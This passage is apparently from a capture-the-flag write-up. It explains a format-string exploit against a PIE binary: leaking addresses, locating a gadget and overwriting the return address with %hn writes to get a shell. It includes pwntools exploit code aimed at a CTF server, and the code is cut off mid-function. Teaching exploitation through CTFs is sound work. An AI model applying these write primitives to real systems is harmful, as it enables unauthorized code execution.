 ![Tux, the Linux mascot](Offical_WP.assets/fmt_gadget.png)

The program has enabled PIE, so we also need to leak the address for the program to calculate the address of the gadget. It's easy to find a one in the stack. Since the gadget is 127 bytes from `main+34` in the binary, we get the gadget address by add this address by 127.

![Tux, the Linux mascot](Offical_WP.assets/fmt_proaddr.png)

Then we can start to modify the return address.
64-bit is too large in the format string so we cannot write the address once. 
We can write two bytes every time. One thing to take care is that we need to reset the counter of the main function before it reaches to 10 if we need to call welcome function more than 10 times. After all things are done, we get the shell and flag is in the server.


```
from pwn import *
from LibcSearcher import *

p = remote("cityf01.cs.cityu.edu.hk", 30012)
#p = process("./stackof")

def write_hn(addr, target):
	if target == 0:
		tmp = "%12$hn"
	else:
		tmp = "%"+str(target)+"c%12$hn"
	payload = flat([tmp, "a"*(24-len(tmp)-8), p64(addr)])
	p.send(payload)
	
	
def fmt_seg_write(addr, target):
	s4 = u16(p64(target)[:2])
	s3 = u16(p64(target)[2:4])
	s2 = u16(p64(target)[4:6])
	s1 = u16(p64(target)[6:8])
	
	write_hn(addr+6, s1)
	p.recvuntil("Username:\n")
	write_hn(addr+4, s2)
	p.recvuntil("Username:\n")
	write_hn(addr+2, s3)
	p.recvuntil("Username:\n")
	write_hn(addr, s4)

def fmt_write(addr, target, size):
	if size == 8:
```